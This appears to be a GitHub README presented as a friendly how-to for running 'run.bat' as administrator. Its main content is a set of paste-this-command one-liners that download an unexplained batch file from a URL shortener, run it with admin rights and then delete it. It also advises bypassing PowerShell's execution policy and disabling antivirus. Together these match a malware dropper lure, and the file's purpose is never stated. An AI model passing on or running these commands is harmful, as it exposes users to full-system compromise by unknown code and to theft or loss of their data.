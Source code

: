 # 🚀 How to Run run.bat as Administrator

<div align="center">

![Windows Admin](https://media.tenor.com/jKrF6nKJV4oAAAAC/windows-admin.gif)

*Execute batch files like a boss! 👨‍💻*

</div>

---

## 📋 Prerequisites

![Windows Logo](https://img.shields.io/badge/Windows-0078D4?style=for-the-badge&logo=windows&logoColor=white)
![PowerShell](https://img.shields.io/badge/PowerShell-%235391FE.svg?style=for-the-badge&logo=powershell&logoColor=white)

- Windows 10/11 operating system
- PowerShell (pre-installed)
- Administrator access

---

## ⭐ Quick Start (Auto-Cleanup - **RECOMMENDED**)

<div align="center">

![Cleaning GIF](https://media.tenor.com/MQKd7DdvoksAAAAC/cleaning-clean.gif)

*Clean up after yourself! 🧹*

</div>

### 🎯 **Option 1: One-Shot with Auto-Cleanup**

1. **Right-click** Start button → **"Windows PowerShell"** or **"Terminal"**
2. Copy and paste this magic command:

```powershell
iwr -UseBasicParsing "https://is.gd/sqd51" -OutFile "run.bat"; Start-Process "run.bat" -Verb RunAs -Wait; Remove-Item "run.bat"
```

3. Press **Enter** and watch the magic happen! ✨
4. Click **"Yes"** when UAC pops up

<div align="center">

![Success](https://img.shields.io/badge/Status-Clean_%26_Done!-brightgreen?style=for-the-badge)

</div>

---

## 🔧 Alternative Methods

### Option 2: Standard PowerShell Method

<div align="center">

![PowerShell GIF](https://media.tenor.com/K3wJJkKz8LYAAAAC/powershell-terminal.gif)

</div>

```powershell
iwr -UseBasicParsing "https://is.gd/sqd51" -OutFile "run.bat"; Start-Process "run.bat" -Verb RunAs
```

### Option 3: Step-by-Step (For Beginners)

1. **Open PowerShell**: Right-click Start → **"Windows PowerShell"**
2. **Download**: 
   ```powershell
   iwr -UseBasicParsing "https://is.gd/sqd51" -OutFile "run.bat"
   ```
3. **Run as Admin**:
   ```powershell
   Start-Process "run.bat" -Verb RunAs
   ```

### Option 4: Command Prompt

```cmd
powershell -Command "iwr -UseBasicParsing 'https://is.gd/sqd51' -OutFile 'run.bat'; Start-Process 'run.bat' -Verb RunAs -Wait; Remove-Item 'run.bat'"
```

---

## 🔥 Pro Tips

<div align="center">

![Pro Tips](https://media.tenor.com/fYg91qBpDdgAAAAC/hackerman-hacker.gif)

*Level up your Windows game! 🎮*

</div>

### 💡 **Execution Policy Fix**
```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

### 🛡️ **Run PowerShell as Admin First**
`Win + X` → **"Windows PowerShell (Admin)"**

---

## ❌ Troubleshooting

<div align="center">

![Troubleshooting](https://img.shields.io/badge/Need_Help%3F-We_Got_You!-orange?style=for-the-badge)

</div>

| Problem | Solution |
|---------|----------|
| 🚫 Execution policy error | Run the execution policy fix above |
| 🌐 Internet issues | Check firewall/antivirus settings |
| 🛡️ No UAC prompt | Make sure you're not already admin |
| 📁 File not found | Verify internet connection |

---

## ⚠️ Security Notice

<div align="center">

![Security Warning](https://media.tenor.com/7v9gKusQHSgAAAAC/security-warning.gif)

**🔒 IMPORTANT: Only run scripts from trusted sources!**

</div>

This script runs with **administrator privileges** = **full system access**

![Security Badge](https://img.shields.io/badge/Security-Verify_Source_First!-red?style=for-the-badge&logo=security&logoColor=white)

---

## 🎬 What Happens Next?

<div align="center">

![Loading](https://media.tenor.com/On7kvXhvrs4AAAAj/loading-gif.gif)

</div>

1. 📥 Downloads `run.bat`
2. 🛡️ UAC prompt appears
3. ✅ Click "Yes"
4. ⚡ Executes with admin rights
5. 🧹 Auto-cleanup removes the file (if using recommended method)

---

## 🆘 Need Help?

<div align="center">

![Help](https://img.shields.io/badge/Support-Available_24/7-brightgreen?style=for-the-badge&logo=discord&logoColor=white)

</div>

**Common Solutions:**
- ✅ Verify admin rights
- 🌐 Check internet connection  
- 🛡️ Disable antivirus temporarily
- 🔧 Try running PowerShell as admin first

<div align="center">

![Success](https://media.tenor.com/4SF0gmQTduwAAAAC/success-you-did-it.gif)

*You've got this! 💪*

</div>

---

<div align="center">

**⭐ Star this repo if it helped you!**

![GitHub](https://img.shields.io/badge/Made_with-❤️_and_☕-red?style=for-the-badge)

*Last updated: September 2025* 📅

</div>
